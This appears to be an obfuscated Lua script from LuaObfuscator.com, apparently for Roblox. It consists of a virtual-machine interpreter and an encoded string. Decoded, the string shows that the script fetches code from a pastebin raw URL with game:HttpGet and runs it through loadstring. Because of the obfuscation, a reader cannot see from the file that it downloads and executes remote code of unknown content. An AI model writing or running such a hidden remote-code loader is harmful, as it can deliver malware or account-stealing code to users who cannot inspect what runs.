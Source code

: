 --[[
 .____                  ________ ___.    _____                           __                
 |    |    __ _______   \_____  \\_ |___/ ____\_ __  ______ ____ _____ _/  |_  ___________ 
 |    |   |  |  \__  \   /   |   \| __ \   __\  |  \/  ___// ___\\__  \\   __\/  _ \_  __ \
 |    |___|  |  // __ \_/    |    \ \_\ \  | |  |  /\___ \\  \___ / __ \|  | (  <_> )  | \/
 |_______ \____/(____  /\_______  /___  /__| |____//____  >\___  >____  /__|  \____/|__|   
         \/          \/         \/    \/                \/     \/     \/                   
          \_Welcome to LuaObfuscator.com   (Alpha 0.10.8) ~  Much Love, Ferib 

]]--

local v0=tonumber;local v1=string.byte;local v2=string.char;local v3=string.sub;local v4=string.gsub;local v5=string.rep;local v6=table.concat;local v7=table.insert;local v8=math.ldexp;local v9=getfenv or function() return _ENV;end ;local v10=setmetatable;local v11=pcall;local v12=select;local v13=unpack or table.unpack ;local v14=tonumber;local function v15(v16,v17,...) local v18=1;local v19;v16=v4(v3(v16,5),"..",function(v30) if (v1(v30,2)==81) then local v81=0;while true do if (v81==0) then v19=v0(v3(v30,1,1));return "";end end else local v82=v2(v0(v30,16));if v19 then local v92=0;local v93;while true do if (v92==0) then v93=v5(v82,v19);v19=nil;v92=1;end if (v92==1) then return v93;end end else return v82;end end end);local function v20(v31,v32,v33) if v33 then local v83=(v31/((1 + 1 + 0)^(v32-(1 + 0))))%((5 -(960 -(892 + 65)))^(((v33-(2 -(2 -1))) -(v32-(1 -0))) + (2 -1))) ;return v83-(v83%(1066 -(68 + 997))) ;else local v84=1270 -(226 + (1929 -885)) ;local v85;while true do if (v84==(0 -0)) then v85=(621 -(555 + 64))^(v32-(932 -(857 + 74))) ;return (((v31%(v85 + v85))>=v85) and ((1043 -474) -(367 + 201))) or (927 -(214 + 713)) ;end end end end local function v21() local v34=v1(v16,v18,v18);v18=v18 + 1 ;return v34;end local function v22() local v35,v36=v1(v16,v18,v18 + (352 -(87 + 263)) );v18=v18 + (182 -(67 + 113)) ;return (v36 * 256) + v35 ;end local function v23() local v37,v38,v39,v40=v1(v16,v18,v18 + 3 + 0 );v18=v18 + (9 -5) ;return (v40 * (12338840 + 4438376)) + (v39 * (260471 -194935)) + (v38 * 256) + v37 ;end local function v24() local v41=0 + 0 ;local v42;local v43;local v44;local v45;local v46;local v47;while true do if (v41==(953 -(802 + 150))) then v44=2 -(773 -(201 + 571)) ;v45=(v20(v43,1 -0 ,(1153 -(116 + 1022)) + 5 ) * (2^(1029 -(915 + 82)))) + v42 ;v41=5 -3 ;end if (v41==(2 + (4 -3))) then if (v46==0) then if (v45==(0 -0)) then return v47 * (1187 -(1069 + 118)) ;else local v111=0 -0 ;while true do if (v111==(0 -(0 + 0))) then v46=1 + 0 ;v44=0 -0 ;break;end end end elseif (v46==(2031 + 16)) then return ((v45==(791 -((1343 -975) + 423))) and (v47 * (1/(0 -0)))) or (v47 * NaN) ;end return v8(v47,v46-(1041 -(10 + 8)) ) * (v44 + (v45/((7 -5)^(494 -(416 + 26))))) ;end if (v41==(6 -4)) then v46=v20(v43,10 + 11 ,54 -23 );v47=((v20(v43,470 -(145 + 293) )==(431 -(44 + 386))) and  -(1487 -(998 + 488))) or (3 -2) ;v41=3;end if (v41==0) then v42=v23();v43=v23();v41=1 + 0 ;end end end local function v25(v48) local v49;if  not v48 then local v86=859 -((1446 -632) + (1125 -(1020 + 60))) ;while true do if (v86==(0 -0)) then v48=v23();if (v48==(0 + 0)) then return "";end break;end end end v49=v3(v16,v18,(v18 + v48) -((1424 -(630 + 793)) + 0) );v18=v18 + v48 ;local v50={};for v65=886 -(261 + 624) , #v49 do v50[v65]=v2(v1(v3(v49,v65,v65)));end return v6(v50);end local v26=v23;local function v27(...) return {...},v12("#",...);end local function v28() local v51=(function() return 0 -0 ;end)();local v52=(function() return;end)();local v53=(function() return;end)();local v54=(function() return;end)();local v55=(function() return;end)();local v56=(function() return;end)();local v57=(function() return;end)();local v58=(function() return;end)();while true do if (2==v51) then local v90=(function() return 374 -(123 + 251) ;end)();while true do if (v90~=0) then else v58=(function() return {};end)();for v112= #"}",v57 do local v113=(function() return 0;end)();local v114=(function() return;end)();local v115=(function() return;end)();while true do if (0~=v113) then else v114=(function() return v21();end)();v115=(function() return nil;end)();v113=(function() return 4 -3 ;end)();end if ((699 -(208 + 490))==v113) then if (v114== #"}") then v115=(function() return v21()~=0 ;end)();elseif (v114==2) then v115=(function() return v24();end)();elseif (v114== #"19(") then v115=(function() return v25();end)();end v58[v112]=(function() return v115;end)();break;end end end v90=(function() return 1 + 0 ;end)();end if (v90~=(1 + 0)) then else v56[ #"-19"]=(function() return v21();end)();v51=(function() return 839 -(660 + 176) ;end)();break;end end end if (0~=v51) then else v52=(function() return function(v101,v102,v103) local v104=(function() return 0;end)();local v105=(function() return;end)();while true do if (v104~=(0 + 0)) then else v105=(function() return 202 -(14 + 188) ;end)();while true do if (v105~=(675 -(534 + 141))) then else local v160=(function() return 0 + 0 ;end)();while true do if (v160~=0) then else v101[v102-#"[" ]=(function() return v103();end)();return v101,v102,v103;end end end end break;end end end;end)();v53=(function() return {};end)();v54=(function() return {};end)();v51=(function() return 1;end)();end if (v51==1) then local v91=(function() return 0;end)();while true do if (v91~=(1 + 0)) then else v57=(function() return v23();end)();v51=(function() return 2;end)();break;end if (v91==(0 + 0)) then v55=(function() return {};end)();v56=(function() return {v53,v54,nil,v55};end)();v91=(function() return 1;end)();end end end if (v51==3) then for v94= #",",v23() do local v95=(function() return v21();end)();if (v20(v95, #"\\", #"{")==0) then local v107=(function() return 0 -0 ;end)();local v108=(function() return;end)();local v109=(function() return;end)();local v110=(function() return;end)();while true do if (v107~=1) then else local v148=(function() return 0;end)();while true do if (v148~=(1 -0)) then else v107=(function() return 5 -3 ;end)();break;end if ((0 + 0)~=v148) then else v110=(function() return {v22(),v22(),nil,nil};end)();if (v108==(396 -(115 + 281))) then local v169=(function() return 0 -0 ;end)();local v170=(function() return;end)();while true do if (v169==(0 + 0)) then v170=(function() return 0 -0 ;end)();while true do if ((0 -0)==v170) then v110[ #"xxx"]=(function() return v22();end)();v110[ #".com"]=(function() return v22();end)();break;end end break;end end elseif (v108== #"|") then v110[ #"-19"]=(function() return v23();end)();elseif (v108==2) then v110[ #"gha"]=(function() return v23() -(2^(883 -(550 + 317))) ;end)();elseif (v108~= #"xxx") then else local v175=(function() return 0;end)();local v176=(function() return;end)();while true do if (v175==0) then v176=(function() return 0 -0 ;end)();while true do if (v176~=(0 -0)) then else v110[ #"-19"]=(function() return v23() -((5 -3)^16) ;end)();v110[ #"?id="]=(function() return v22();end)();break;end end break;end end end v148=(function() return 1;end)();end end end if (v107==(285 -(134 + 151))) then local v149=(function() return 1665 -(970 + 695) ;end)();while true do if (v149==1) then v107=(function() return 1 -0 ;end)();break;end if (v149~=(1990 -(582 + 1408))) then else v108=(function() return v20(v95,6 -4 , #"19(");end)();v109=(function() return v20(v95, #"?id=",6);end)();v149=(function() return 1 -0 ;end)();end end end if (v107==3) then if (v20(v109, #"-19", #"nil")== #"[") then v110[ #"xnxx"]=(function() return v58[v110[ #"0313"]];end)();end v53[v94]=(function() return v110;end)();break;end if (v107~=(7 -5)) then else if (v20(v109, #"\\", #"|")== #"]") then v110[2]=(function() return v58[v110[1826 -(1195 + 629) ]];end)();end if (v20(v109,2,2)== #"<") then v110[ #"xxx"]=(function() return v58[v110[ #"91("]];end)();end v107=(function() return 3;end)();end end end end for v96= #" ",v23() do v54,v96,v28=(function() return v52(v54,v96,v28);end)();end return v56;end end end local function v29(v59,v60,v61) local v62=v59[1 -0 ];local v63=v59[243 -(187 + 54) ];local v64=v59[783 -(162 + (732 -(4 + 110))) ];return function(...) local v67=v62;local v68=v63;local v69=v64;local v70=v27;local v71=1 + 0 ;local v72= -(585 -(57 + 527));local v73={};local v74={...};local v75=v12("#",...) -(1 -0) ;local v76={};local v77={};for v87=0 -0 ,v75 do if (v87>=v69) then v73[v87-v69 ]=v74[v87 + 1 ];else v77[v87]=v74[v87 + 1 + 0 ];end end local v78=(v75-v69) + 1 ;local v79;local v80;while true do v79=v67[v71];v80=v79[1637 -(1373 + 263) ];if ((3106>1526) and (v80<=(1003 -(451 + 549)))) then if ((3023<3870) and (v80<=1)) then if (v80==(0 + (1427 -(41 + 1386)))) then v77[v79[2 -0 ]]={};else local v117=v79[2 -0 ];local v118=v77[v79[1387 -(746 + 638) ]];v77[v117 + 1 ]=v118;v77[v117]=v118[v79[2 + 2 ]];end elseif ((143>74) and (v80>(2 -0))) then v77[v79[343 -(218 + 123) ]]=v61[v79[(1687 -(17 + 86)) -(1535 + 32 + 14) ]];else local v124;local v125,v126;local v127;local v128;v77[v79[2]]={};v71=v71 + (1 -0) + 0 ;v79=v67[v71];v77[v79[(2 -1) + (167 -(122 + 44)) ]]=v61[v79[563 -((528 -222) + 254) ]];v71=v71 + 1 + 0 ;v79=v67[v71];v77[v79[3 -1 ]]=v61[v79[(4876 -3406) -(899 + 463 + 105) ]];v71=v71 + 1 + 0 ;v79=v67[v71];v128=v79[4 -(1 + 1) ];v127=v77[v79[606 -((542 -274) + 335) ]];v77[v128 + ((356 -(30 + 35)) -(60 + 230)) ]=v127;v77[v128]=v127[v79[576 -(426 + 146) ]];v71=v71 + 1 + 0 ;v79=v67[v71];v77[v79[1458 -(282 + 1174) ]]=v79[814 -(392 + 177 + 242) ];v71=v71 + (2 -1) ;v79=v67[v71];v128=v79[1 + 1 ];v125,v126=v70(v77[v128](v13(v77,v128 + (1025 -(706 + 318)) ,v79[1254 -(721 + 530) ])));v72=(v126 + v128) -(1272 -(945 + 326)) ;v124=0 -(1257 -(1043 + 214)) ;for v151=v128,v72 do local v152=0;while true do if (v152==(0 + 0)) then v124=v124 + (701 -(271 + (1621 -1192))) ;v77[v151]=v125[v124];break;end end end v71=v71 + 1 + 0 ;v79=v67[v71];v128=v79[1502 -(1408 + 92) ];v77[v128]=v77[v128](v13(v77,v128 + (1087 -(461 + 625)) ,v72));v71=v71 + 1 ;v79=v67[v71];v77[v79[1290 -(993 + 295) ]]();v71=v71 + 1 + 0 ;v79=v67[v71];do return;end end elseif (v80<=(1176 -((1630 -(323 + 889)) + 753))) then if (v80>(2 + 2)) then v77[v79[1 + 1 ]]();else local v144=v79[1 + 1 ];local v145,v146=v70(v77[v144](v13(v77,v144 + 1 + 0 ,v79[532 -(406 + 123) ])));v72=(v146 + v144) -(1770 -((4707 -2958) + 20)) ;local v147=0 + 0 ;for v153=v144,v72 do local v154=1322 -(1249 + 73) ;while true do if ((18<2112) and (v154==(0 + 0))) then v147=v147 + (1146 -(466 + 679)) ;v77[v153]=v145[v147];break;end end end end elseif (v80<=(14 -8)) then do return;end elseif (v80==(19 -12)) then v77[v79[1902 -(106 + 1794) ]]=v79[1 + 2 ];else local v158=v79[1 + 1 ];v77[v158]=v77[v158](v13(v77,v158 + (2 -1) ,v72));end v71=v71 + (2 -1) ;end end;end return v29(v28(),{},v17)(...);end return v15("LOL!043Q00030A3Q006C6F6164737472696E6703043Q0067616D6503073Q00482Q747047657403213Q00682Q7470733A2Q2F706173746562696E2E636F6D2F7261772F624D4268457A524A00094Q00027Q00122Q000100013Q00122Q000200023Q00202Q00020002000300122Q000400046Q000200046Q00013Q00024Q0001000100016Q00017Q00",v9(),...);
